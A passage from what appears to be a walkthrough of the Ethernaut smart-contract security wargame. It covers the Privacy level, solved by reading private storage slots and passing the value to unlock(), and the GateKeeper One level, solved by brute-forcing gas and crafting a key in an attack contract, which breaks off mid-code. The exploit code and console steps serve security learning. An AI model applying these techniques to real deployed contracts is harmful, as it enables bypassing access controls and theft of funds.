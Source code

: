 ```solidity
            return true;
        }
    }

    function callGoTo() public {
        ele.goTo(1);
    }
}
```

# 12. Privacy

One more level requiring accessing storage slots. We have to read the third element of the data array, typecast it into **bytes16** and pass it to the `unlock()`. The **locked** variable will take a single byte in slot0, **ID** will take the entire slot1, **flattening** will take a single byte in slot2, **denomination** will also take a single byte in slot2 and **awkwardness** will take 2 bytes in slot2. The first 2 elements of the array will take slot3 and slot4 respectively, so we have to read slot5 for the 3rd element. Then we have to typecast it into bytes16 which means we will have to take the first 16 bytes or first 32 hex numbers.

```jsx
> await web3.eth.getStorageAt("0x2AeF1B262681889d9699148C3714B9eF0ee6C1c0", 5)
< '0x9f984ee6ac946c55997a19f2301fa67ab97734eab6778dc6706f348efdbf2570

> x = '0x9f984ee6ac946c55997a19f2301fa67ab97734eab6778dc6706f348efdbf2570'

> x = x.slice(2)

> x.slice(0, x.length/2)
< '9f984ee6ac946c55997a19f2301fa67a'

> await contract.unlock('0x9f984ee6ac946c55997a19f2301fa67a')

> await contract.locked()
< false
```

# 13. GateKeeper One

To complete this level we have two pass 3 gates. Gate one is easy to crack as it is same as the **Telephone** level. Gate three is similar to the **Token** level, we have to reverse engineer a gate key. Gate two is a little interesting, the gas left when the execution reaches it should be divisible by 8191. There are a lot of methods to crack this gate but I guess brute force is the best(and easiest 😛). We can get a minimum limit to the gas that the original execution will require by removing the gate two modifier from the `enter()` and deploying this contract to the Rinkeby test net. Call the `enter()` of the modified contract from remix and you will get a minimum limit to the gas. The `gateThree()` has simple comparison statements so it will definitely not burn more than $10000$ units of gas. So we can brute force from $minGasVal + 8191$ to  $minGasVal + 8191 + 10000$.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./GateKeeperOne.sol";

contract Test {
    GatekeeperOne public gatekeeperOne;
    bytes8 private key = 0x100000000000f7c3;

    constructor(address addr) public {
        gatekeeperOne = GatekeeperOne(addr);
    }

```